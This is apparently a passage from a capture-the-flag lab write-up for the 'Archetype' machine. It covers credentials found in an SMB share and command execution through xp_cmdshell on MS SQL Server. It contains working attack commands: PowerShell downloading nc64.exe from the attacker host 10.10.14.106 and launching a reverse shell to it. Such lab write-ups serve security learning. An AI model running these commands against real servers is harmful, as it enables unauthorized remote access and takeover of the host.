 ### Findings
- Discovered `backups` SMB share with accessible files.
- Found credentials `ARCHETYPE\sql_svc:M3g4c0rp123` in `prod.dtsConfig` file within the `backups` share.
- SQL Server login confirmed `sql_svc` as sysadmin:
  ```sql
  SELECT is_srvrolemember('sysadmin');
  ```
  - Returned `1` (true). [Image Placeholder: is-sysadmin-role]

## 3. Exploitation
### Vulnerability Identified
- **Vulnerability**: Microsoft SQL Server misconfiguration allowing `xp_cmdshell` execution.
- **Details**: The `sql_svc` account had sysadmin privileges, enabling `xp_cmdshell` to execute system commands on the host, leading to remote code execution (RCE).
- **Why Vulnerable**: Misconfigured SQL Server with sysadmin access and enabled `xp_cmdshell` allows arbitrary command execution without proper restrictions.

### Exploit Steps
1. Enabled `xp_cmdshell`:
   ```sql
   EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
   ```
2. Started a web server to host `nc64.exe`:
   ```bash
   sudo python3 -m http.server 80
   ```
3. Started a Netcat listener:
   ```bash
   nc -lvnp 443
   ```
   [Image Placeholder: shell-connect]
4. Downloaded `nc64.exe` to target:
   ```sql
   xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; Invoke-WebRequest -Uri http://10.10.14.106/nc64.exe -OutFile nc64.exe"
   ```
   [Image Placeholder: download-winexe]
5. Executed reverse shell:
   ```sql
   xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd 10.10.14.106 443"
   ```
6. Navigated to user’s Desktop to retrieve flag:
   ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
   ```
   [Image Placeholder: user-flag]

## 4. Privilege Escalation
### Method
- Exploited `SeImpersonatePrivilege` using `winPEAS` and reused administrator credentials found in PowerShell history.
